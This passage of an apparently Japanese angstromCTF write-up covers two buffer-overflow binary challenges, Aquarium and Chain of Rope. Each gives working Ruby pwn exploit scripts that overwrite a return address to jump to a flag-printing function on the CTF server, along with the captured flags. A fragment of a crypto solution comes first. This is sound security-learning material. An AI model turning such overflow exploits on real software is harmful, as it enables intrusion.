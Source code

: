 ```ruby
m = ((c_lambda * g_lambda) % n).to_s.to_i.to_s(16)
print([m].pack("H*"))
```

## Binary

### Aquarium
- gets関数によるBOFがあるバイナリで、flag出力用の関数があるのでそこに飛ばすだけ
- **actf{overflowed_more_than_just_a_fish_tank}**

```ruby
#!/usr/bin/env ruby

require 'pwn'

#z = Sock.new "localhost", 9999
z = Sock.new "shell.actf.co", 19305

payload = "A" * 0x98 + p32(0x4011b6)
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline "1"
z.recvuntil ": "
z.sendline payload

puts z.recv
```

### Chain of Rope

- 名前からしてROPかと思ったけど、そうではなく単純なBOFでリターンアドレスをflag出力用関数に書き換えるだけ(Aquariumとまったく同じ)
- **actf{dark_web_bargains}**

```ruby
#!/usr/bin/env ruby

require 'pwn'

z = Sock.new "localhost", 9999
z = Sock.new "shell.actf.co", 19400

puts z.recvuntil("access\n")
z.sendline "1"

payload = "A" * 0x38 + p64(0x401231)
z.sendline payload

p z.recv
```
